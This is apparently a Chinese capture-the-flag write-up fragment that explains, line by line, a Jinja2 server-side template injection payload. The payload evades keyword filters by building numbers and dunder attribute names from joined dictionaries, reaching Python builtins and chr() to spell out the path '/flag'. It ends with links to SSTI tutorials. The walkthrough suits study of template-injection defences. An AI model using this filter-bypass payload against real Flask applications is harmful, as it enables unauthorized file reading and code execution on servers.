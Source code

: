 分析如下

```
几个c就代表几，比如c=1,ccc=3
{% set c=(dict(e=a)|join|count)%}
{% set cc=(dict(ee=a)|join|count)%}
{% set ccc=(dict(eee=a)|join|count)%}
{% set cccc=(dict(eeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
用~拼接    构造coun=24
{% set coun=(cc~cccc)|int%}
同web169
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
调用chr()函数
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
构造file="/flag"
{% set file=chr((cccc~ccccccc)|int)%2bchr((cccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccc~ccccccc)|int)%2bchr((cccccccccc~ccc)|int)%} 
```

参考文章:
[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)
[SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)
[Python模板注入(SSTI)深入学习](https://xz.aliyun.com/t/6885)
